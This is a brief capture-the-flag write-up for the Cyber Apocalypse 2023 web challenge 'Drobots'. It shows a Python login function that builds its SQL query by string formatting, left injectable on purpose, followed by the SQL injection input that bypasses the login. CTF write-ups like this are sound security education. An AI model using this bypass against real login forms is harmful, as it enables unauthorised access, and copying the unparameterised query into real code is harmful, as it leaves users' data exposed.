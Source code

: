 # Cyber Apocalypse 2023

## Drobots

> Pandora's latest mission as part of her reconnaissance training is to infiltrate the Drobots firm that was suspected of engaging in illegal activities. Can you help pandora with this task?
>
>  Author: N/A
>
> [`web_drobots.zip`](web_drobots.zip)

Tags: _web_

## Solution
We are presented with an login form. By looking at the source code we find the login code with a suspicious comment.
```
def login(username, password):
    # We should update our code base and use techniques like parameterization to avoid SQL Injection
    user = query_db(f'SELECT password FROM users WHERE username = "{username}" AND password = "{password}" ', one=True)

    if user:
        token = createJWT(username)
        return token
    else:
        return False
```

So we can use sql injection to pass by the login.
```
user: admin" or 1=1 -- -
password: test
```

After logging in we find the flag:
![flag](image001.png)